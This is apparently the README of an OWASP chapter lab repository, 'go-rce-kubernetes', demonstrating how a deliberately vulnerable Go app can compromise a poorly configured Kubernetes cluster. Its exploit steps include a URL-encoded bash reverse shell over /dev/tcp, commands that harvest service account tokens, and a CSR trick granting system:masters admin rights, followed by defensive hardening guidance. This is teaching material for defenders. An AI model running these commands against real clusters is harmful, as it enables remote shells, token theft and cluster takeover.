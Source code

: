 #  Welcome!

First and foremost, Welcome! :tada::confetti_ball:

Thank you for visiting the go-rce-kubernetes project repository. :balloon::balloon::balloon:

This document (the README file) is a hub to give you some information about the project. Jump straight to one of the sections below, or just scroll down to find out more.

* [What are we doing? (And why?)](#what-are-we-doing)
* [Who are we?](#who-are-we)
* [How to use this repostory](#getting-started)
* [Get in touch](#contact-us)
* [Find out more](#general-security-guidance)


## What are we doing?

The intent of this repository is to take a closer look at some of the security pitfals that maybe encoutered when deploying containerize applications in kubernetes. This project uses poorly writen go application to demonstrate how a single vulnerable application can compromise a poorly configured kubernetes cluster. 


## Who are we?

The new OWASP waterloo chapter leads and security enthustists
* Scott Handfield
* Kristopher Jamison
* Dale Babiy
* Deepak Sharma


# Getting started

## Pre-requisites 
This project assumes you have access to a running kubernetes cluster 

## Build and run 
The following steps outline building and running the simulations: 
1. Clone the repo 
```
git clone github.com/handfields/go-rce-kubernetes
```
2. Build the vulnerable go-rce contianer (Optional - containers are also available on dockerhub)
```
cd go-rce-kubernetes && docker build . 
```
3. Deploy 
4. Exploit 
 - The go-rce applicaion takes untrusted data from users as command line arguments and redirect
 - Open a browser to the following link (Replace hostname and port with the external IP/port of the kubernetes service) <br>
 [http://hostname:port/google.com?bash%20-i%20%26%3E%20%2Fdev%2Ftcp%2Fhostname9%2Fport%200%3E%261](http://hostname:port/google.com?bash%20-i%20%26%3E%20%2Fdev%2Ftcp%2Fhostname%2Fport%200%3E%261)

5. Recon
 - what information can you find that might be useful for lateral movement and/or persistence in the cluster? 
 - service account tokens? 
    ```
    find / -name '*token'
    ```
 - sensitive environment variables? 
   ```
   env
   ``` 
 - explore ..
    ```
    ./kubectl --token=$(cat /run/secrets/kubernetes.io/serviceaccount/token) --certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt --server='https://kubernetes.default.svc.cluster.local' get pods
    ```

6. Elevate permissions 

Generate and sign client certificate with elevated permissions
```
curl -Lo cfssl https://github.com/cloudflare/cfssl/releases/download/v1.5.0/cfssl_1.5.0_linux_amd64 && chmod 700 cfssl 
curl -Lo cfssljson https://github.com/cloudflare/cfssl/releases/download/v1.5.0/cfssljson_1.5.0_linux_amd64 && chmod 700 cfssljson

cat <<EOF | ./cfssl genkey - | ./cfssljson -bare server
{
  "CN": "admin",
  "names": [
      {
        "O": "system:masters"
      }
  ],
  "key": {
    "algo": "rsa",
    "size": 2048
  }
}
EOF

cat <<EOF | ./kubectl --token=$(cat /run/secrets/kubernetes.io/serviceaccount/token) --certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt apply -f -
apiVersion: certificates.k8s.io/v1beta1
kind: CertificateSigningRequest
metadata:
  name: nothing-to-see-here
spec:
  signerName: kubernetes.io/legacy-unknown
  request: $(cat server.csr | base64 | tr -d '\n')
  usages:
  - digital signature
  - key encipherment
  - client auth
EOF

./kubectl certificate approve nothing-to-see-here

./kubectl get csr nothing-to-see-here -o jsonpath='{.status.certificate}' | base64 -d | tee server.crt 
```

7. Perform lateral movement

8. Add security policies 

9. Update deployment 


# General secuirty guidance 
This section introduces some general best practice guildlines for operating secure containerize workloads 

### Build secure images 
    - Use slim and minimal base images, where possible 
    - Use multi-stage builds to avoid adding unnecessary binaries, libraries, files, etc. 
    - Scan images and applications for security vulnerabilities

### Ensure binary authorization
    - Restrict access to container registries and use only verified images (ie. Cryptographically signed images, OPA policies, etc. )

### Remove unnecessary capabilities 
    - Ensure securityContext is applied to ensure pods are running as non-root, with appropriate capabilities and read-only filesystems where possible.  

### Apply least privilege access 
    - Apply RBAC policy and limit access to service accounts 

### Take caution with sensitive mount points
    - Avoid mounting service account tokens and 'hostpath', especially for pods that are exposed to lower environments (ie. internet facing, accessible form uat, dev, etc..)

### Segment, Segment and Segment 
    - Namespaces
        - Use namespaces to logically group workloads but do not assume namespaces provide sufficient workload isolation. 
    - Network policies
    - Service mesh 
    - Secure control plane 

### Monitor
    - Continuously scan host, images and running containers for vulnerabilities and configuration issues 
    - Ensure logs are being shipped and analyzed for security issues

### Additional guidance, helpful tools and resources 
https://cheatsheetseries.owasp.org/cheatsheets/Kubernetes_Security_Cheat_Sheet.html<br>
https://github.com/OWASP/Docker-Security<br>
https://www.nist.gov/publications/application-container-security-guide <br>
https://github.com/open-policy-agent/<br>
https://github.com/ManicodeSecurity/Defending-DevOps <br>
https://github.com/ksoclabs/kube-goat <br>
https://github.com/aquasecurity<br>
https://github.com/falcosecurity/falco<br>
https://github.com/cyberark/KubiScan<br>
https://kubernetes.io/blog/2018/07/18/11-ways-not-to-get-hacked/<br>
https://www.microsoft.com/security/blog/2020/04/02/attack-matrix-kubernetes/<br>
https://github.com/trailofbits/audit-kubernetes/tree/master/reports<br>
https://blog.aquasec.com/container-vulnerability-dzmlt-dynamic-container-analysis<br>